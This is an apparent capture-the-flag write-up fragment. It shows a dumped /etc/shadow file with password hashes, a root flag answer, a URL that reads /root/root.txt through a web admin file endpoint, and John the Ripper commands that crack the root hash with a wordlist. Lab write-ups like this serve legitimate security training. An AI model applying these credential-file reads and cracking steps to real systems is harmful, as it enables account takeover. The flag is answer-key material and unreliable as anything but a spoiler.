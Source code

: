 ```
root:$6$Llhg4MdC$f9TRe8xLelwHpj5JvCNprpWBnHppEnryPo1mGiKW2U71SpTVZRRE0f7/3kZsIwNsRpcc7GlcVSnuYfiN5n7Yw.:18124:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
lxd:*:18122:0:99999:7:::
messagebus:*:18122:0:99999:7:::
uuidd:*:18122:0:99999:7:::
dnsmasq:*:18122:0:99999:7:::
sshd:*:18122:0:99999:7:::
agent47:$6$QRnDATVa$Dhv2K3GVe40X5hxB/vrdBeBDOYwtwGzFZfEL6/MdvOyO6S2w6pmaZy/h4j.3DKrCGtXoqkVTy.PDJsuOeZ6In1:18124:0:99999:7:::
mysql:!:18122:0:99999:7:::
```

> What is the root flag?

`a4b945830144bdd71908d12d902adeee`

http://localhost:10000/file/show.cgi/root/root.txt

`unshadow passwd shadow > creds.txt`
`head -n 1 creds.txt > root.txt`
`john --wordlist=/usr/share/wordlists/rockyou.txt root.txt`

`john --show root.txt`